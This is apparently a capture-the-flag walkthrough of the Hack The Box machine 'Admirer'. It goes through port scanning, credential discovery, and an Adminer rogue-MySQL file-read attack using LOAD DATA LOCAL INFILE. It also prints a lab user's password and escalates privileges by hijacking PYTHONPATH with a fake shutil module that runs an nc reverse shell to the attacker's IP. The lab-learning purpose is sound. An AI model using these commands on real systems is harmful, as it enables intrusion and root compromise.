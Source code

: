 # admirer

## nmap

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
|   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
|_  256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/admin-dir
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Admirer
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel



## httpenum

we got one disallow in robot.txt lets enumerate it

![image-20200811004205797](admirer.assets/image-20200811004205797.png)

we dont have permission to access the resources

![image-20200811004305502](admirer.assets/image-20200811004305502.png)



## wfuzz

using gobuster to check any subdirectory we can access

![image-20200811005633978](admirer.assets/image-20200811005633978.png)

### files found

- contacts.txt
- credentials.txt

### creds

![image-20200811005933994](admirer.assets/image-20200811005933994.png)



## ftp

since we ftp is open lets try to login to ftp to see ip we can find anything

successfully logged in with those credentials. 

![image-20200811010322710](admirer.assets/image-20200811010322710.png)



found 2 interesting files lets check them

![image-20200811010459540](admirer.assets/image-20200811010459540.png)



### tar

```bash
tar -C html/ -xvf html.tar
```

will extract in new folder



found new credentials inside folder utility-scripts but not sure what service it is for

![image-20200811011308988](admirer.assets/image-20200811011308988.png)



## wfuzz

as we can see it says forbidden which this subdirectory is present but accessible so lets try to use gobuster or wfuzz to enumerate it

![image-20200811011646644](admirer.assets/image-20200811011646644.png)



### adminer

![image-20200811012213180](admirer.assets/image-20200811012213180.png)

found adminer.php lets see what is it

## exploit

1. start mysql service

```bash
service mysql start
```

![image-20200811013408458](admirer.assets/image-20200811013408458.png)



2. configure new mysql database

### configure mysql

```mariadb
create database adminer;
create user 'demo' @ '%' identified by 'demo_adminer';
grant all privileges on *.* to 'demo' @ '%';
flush privileges;
use adminer;
create table test(data varchar(255));
```



![image-20200811014630290](admirer.assets/image-20200811014630290.png)

### bind mysql to 0.0.0.0

- this will make it listen to any incoming connection requesting for its service.

````bash
sudo vim /etc/mysql/mariadb.conf.d/50-server.cnf
````



![image-20200811015139030](admirer.assets/image-20200811015139030.png)

now restart the service

```bash
sudo service mysql stop
sudo service mysql start
```



[adminer attack tutorial](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)

logged into adminer with our credentials

![image-20200811015756173](admirer.assets/image-20200811015756173.png)

### vulnerability 

there is a local file inclusion vulnerability in adminer



### lfi

successful execution of lfi

```mariadb
load data local infile '../index.php'
into table test
fields terminated by "/n"
```



![image-20200811020206434](admirer.assets/image-20200811020206434.png)



### creds

![image-20200811020425777](admirer.assets/image-20200811020425777.png)

found new credentials of waldo

waldo	:	&<h5b~yK3F#{PaPB&dA}{H>



## ssh

![image-20200811020812301](admirer.assets/image-20200811020812301.png)



## post

sudo -l

![image-20200811021117193](admirer.assets/image-20200811021117193.png)

we can run admin_tasks.sh as root

### analysis

- after analyzing admin_task.sh
- backup.py
- we see it invokes backup.py for webcontents and run it as root
- we know backup.py imports shutil
- need to change its default path so that we can give it fake shutil library which spawns as shell

### nc

create a custom python module in tmp folder

```python
#!/usr/bin/env python
import os
os.system("nc 10.10.14.60 5555 -e /bin/bash")
```

changed default path of python modules by

```bash
sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh
```



![image-20200811023017569](admirer.assets/image-20200811023017569.png)